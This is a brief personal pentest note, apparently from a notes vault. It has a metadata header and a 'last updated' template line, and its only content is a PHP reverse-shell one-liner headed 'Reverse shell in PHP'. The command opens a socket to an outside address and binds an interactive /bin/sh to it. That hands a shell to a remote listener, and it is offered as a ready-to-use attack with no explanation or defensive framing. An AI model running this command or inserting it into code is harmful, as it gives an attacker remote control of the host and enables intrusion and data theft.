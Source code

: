 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Reverse shell in PHP
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
